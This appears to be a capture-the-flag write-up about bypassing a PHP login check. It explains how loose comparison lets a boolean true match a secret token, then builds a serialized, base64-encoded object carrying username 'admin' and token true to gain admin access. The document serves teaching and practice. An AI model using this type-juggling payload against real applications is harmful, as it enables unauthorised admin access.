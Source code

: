 Seeing this line is the key to getting an admin account
```php
if ($user->username==='admin' && $user->token=='REDACTED'):
```
First we got 2 types of comparisons in php:
- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".
You can find more here:![](Pasted%20image%2020250223221421.png)

From this table we know that with **=*=*** we can get a ==TRUE== statement when sending a Boolean value
```php
$ php -a
Interactive shell 
php > var_dump(true == 'REDACTED_TOKEN');
bool(true)
php >
```

With that, we can serialize our object and be ready to send it to the server
```php
$ php -a
Interactive shell 
php > class Secret { 
php { public $username; 
php { public $token; 
php { public function __construct($username, $token) { 
php { $this->username = $username; 
php { $this->token = $token; 
php { } 
php { } 
php > } 
php > $obj = new Secret("admin", true); 
php > $ser = serialize($obj); 
O:6:"Secret":2:{s:8:"username";s:5:"admin";s:5:"token";b:1;} php >
php > echo base64_encode($ser);
Tzo2OiJTZWNyZXQiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6NToidG9rZW4iO2I6MTt9
php >
```

Finally we send the final request to the server with our serialized object:
> Poc

![](https://github.com/user-attachments/assets/0e3c76ee-05a6-41d5-b465-0cc1f262bca7)
